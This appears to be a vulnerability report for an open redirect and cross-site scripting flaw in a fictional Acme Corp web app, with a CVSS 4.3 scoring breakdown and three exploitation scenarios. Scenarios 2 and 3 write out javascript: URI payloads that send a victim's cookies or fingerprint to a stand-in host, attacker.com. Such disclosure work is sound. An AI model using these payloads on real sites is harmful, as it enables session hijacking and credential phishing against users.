 # CVSS
**Score**: 4.3 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N \
**Severity**: Medium

The Medium severity rating (4.3) is based on the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely over the internet by anyone who can craft a malicious URL.

- **Low Attack Complexity (AC:L)**: The vulnerability is straightforward to exploit, requiring only basic understanding of URL parameters and JavaScript URIs.

- **No Privileges Required (PR:N)**: The attacker doesn't need any authentication or special privileges to exploit the vulnerability.

- **User Interaction Required (UI:R)**: Exploitation depends on a user clicking a malicious link containing the crafted parameter, which is a mitigating factor.

- **Unchanged Scope (S:U)**: The vulnerability affects only the vulnerable web application and doesn't allow impact on other components.

- **No Confidentiality Impact (C:N)**: While potential for information disclosure exists via subsequent phishing, the vulnerability itself doesn't directly expose sensitive information.

- **Low Integrity Impact (I:L)**: The primary impact is on integrity through unintended redirections to malicious websites or execution of attacker-controlled JavaScript.

- **No Availability Impact (A:N)**: The vulnerability doesn't significantly impact the availability of the application.

# Exploitation Scenarios
**Scenario 1: Phishing Attack via Open Redirect**
An attacker crafts a malicious URL targeting Acme Corp's web application: `https://acme-corp.com/app?$PROP=https://malicious-site.com/fake-login`. The attacker distributes this link via email, social media, or other channels. When users click the link, they initially see the legitimate Acme Corp domain in their browser, establishing trust. The vulnerable code then redirects them to the malicious site, which mimics Acme Corp's login page. Unsuspecting users enter their credentials, which are captured by the attacker.

**Scenario 2: Session Hijacking via XSS**
An attacker creates a URL with a JavaScript URI payload: `https://acme-corp.com/app?$PROP=javascript:fetch('https://attacker.com/steal?cookie='+document.cookie)`. When a victim with an active session clicks this link, the JavaScript executes in their browser context, sending their session cookies to the attacker's server. The attacker can then use these cookies to impersonate the victim and gain unauthorized access to their account.

**Scenario 3: Two-Stage Attack**
An attacker targets specific employees with access to sensitive information. They first craft a URL with an XSS payload that identifies vulnerable browsers: `https://acme-corp.com/app?$PROP=javascript:if(isVulnerableBrowser()){location='https://attacker.com/stage2?id='+userFingerprint()}`. For vulnerable targets, this initial reconnaissance redirects to a second stage that delivers a more sophisticated payload tailored to the victim's specific browser environment, maximizing the attack's effectiveness.
